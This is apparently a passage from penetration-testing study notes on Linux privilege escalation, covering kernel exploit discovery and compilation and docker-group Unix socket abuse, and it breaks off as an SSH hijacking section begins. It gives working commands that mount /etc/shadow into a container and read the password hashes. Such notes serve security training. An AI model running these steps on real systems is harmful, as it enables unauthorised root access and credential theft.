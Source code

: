 For finding the right kernel exploit, we can use a tool named *linux-exploit-suggester*: `/usr/share/linux-exploit-suggester/linux-exploit-suggester.sh -k <TargetKernelVersion>`. It can be executed either locally on the attacker system or directly on the target one.

Keep in mind that not all exploits will be "click-and-shoot". Many of them require parameters and configurations.

For the *exploit compiling*, we can use `gcc <CExploit> -o <CompiledExploit>`, `chmod +x <CompiledExploit>`. Sometimes more complex compile options are required.

Note that Metasploit also contains plenty of kernel exploit modules.

In additions, there is a relatively new exploit framework designed for Linux and Mac targets, known as *Kernelpop*.

(147/162) *Unix socket exploitation*.
A Unix socket is another Unix component you can leverage to escalate the user privileges.
The easiest to follow example on how to leverage an insufficiently secured Unix socket is Docker.
By design, the `docker` daemon binds to a Unix socket instead of a TCP port.
By default, the `docker` daemon always runs as the root user, and the Unix socket is owned by the root user.

Suppose you landed on a machine and that the current user is an unprivileged user, but has access to the `docker` command (he is part of the docker group). And suppose that the docker Unix socket is not protected by implementing the appropriate permissions.

Let's see how we could escalate our privileges in that machine, and specifically try to access to the `/etc/shadow` file content.

`id`:
```
uid-1000(nonroot) gid=1001 (non root) groups=1001 (non root),999 (docker)
```
`cat /etc/shadow`:
```
cat: /etc/shadow: Permission denied
```

`docker run -v /etc/shadow: /docker/hashedpasswords -d postgres`:
```
5888fc048d80a6658e951f755e24eb83ec8688dcd78ec418b419f81756e20665
```
`docker exec -ti 5888fc048d80a6658e951f755e24eb83ec8688dcd78ec418b419f81756e20665 bash`: to connect to the docker Unix socket and escalate our privileges.

`cat /docker/hashedpasswords > /docker/shadow.txt`, `chmod 777 /docker/shadow.txt`, `cat /docker/shadow.txt`: to access the `/etc/shadow` file content.

### Lateral Movement - Study Guide

(12/40) *SSH Hijacking*.
As a pre-requisite for this method, we need that an SSH connection is established via pulic key authentication.

An *SSH agent* is a program that manages SSH keys for passwordless authentication during SSH connections. When you connect to a remote server using SSH and have configured authentication via public/private key pairs, the SSH agent securely stores your private key and uses it to authenticate you automatically when requested by the remote server, eliminating the need to manually enter the password each time you connect.
